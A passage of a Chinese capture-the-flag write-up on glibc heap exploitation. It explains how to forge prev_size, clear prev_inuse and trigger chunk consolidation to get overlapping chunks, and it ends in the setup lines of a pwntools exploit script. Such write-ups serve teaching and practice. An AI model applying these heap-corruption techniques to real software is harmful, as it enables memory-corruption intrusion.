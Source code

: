 - 示意图

![image-20240325115900055](https://awaqwqa.github.io/img/vctf_leak_libc/image-20240325115900055.png)

- add后

![image-20240325135125545](https://awaqwqa.github.io/img/vctf_leak_libc/image-20240325135125545.png)

### 构造合并chunk

> 这里就要简单很多了 就是利用一次合并机制和分割机制 造成prev_inuse变为0 并且构造好prev_size
>
> 只不过我们还是得调整一下要选择合并的chunk的位置 因为我们刚才构造的fake chunk大小为0x550所以我们要在fake chunk往下0x550位置弄出一个 allocted chunk
>
> 下面的解释其实有失偏颇 因为其实是我们专门计算的0x550这个数据 刚好对上一个chunk 但是为了方便理解我们选择倒推的方式

- 代码

  ```c
  free(4)
  
  add(0x108, b"c" * 0x100 + p64(0x550))  # 4
  add(0x400, "a" * 8)  # 6
  free(3)
  add(0x10, "a" * 8)  # 3
  show(6)
  ```

- 首先我们看一下 fakechunk 0x550偏移位置坐标在哪里

  ![image-20240325145741621](https://awaqwqa.github.io/img/vctf_leak_libc/image-20240325145741621.png)

  ![image-20240325145825097](https://awaqwqa.github.io/img/vctf_leak_libc/image-20240325145825097.png)

- 根据地址我们知道 也就是我们要修改的chunk为chunk 5 那么我们就去free掉chunk 4(大小0x110)然后malloc回来 写入数据覆盖到chunk 5的prev_inuse 并且构造好0x550的prev_size

- 示意图

  ![image-20240325150321671](https://awaqwqa.github.io/img/vctf_leak_libc/image-20240325150321671.png)

- 此时我们成功完成构造 最后只需要 free掉chunk 5触发合并机制 然后我们成功完成一次overlapping 可喜可贺



## 脚本

```python
from pwn import *
# from pwncli import *

# context(os='linux', arch='amd64', log_level='debug')
context.terminal = ['tmux', 'sp', '-h']
context(os='linux', arch='amd64')
local = 1
elf = ELF('./vuln')
if local:
    p = gdb.debug('./vuln',"b *main+57")
    libc = ELF('./libc.so')
else:
    p = remote('', 0)
    libc = ELF('./libc.so')

sd = lambda s: p.send(s)
sl = lambda s: p.sendline(s)
sa = lambda n, s: p.sendafter(n, s)
```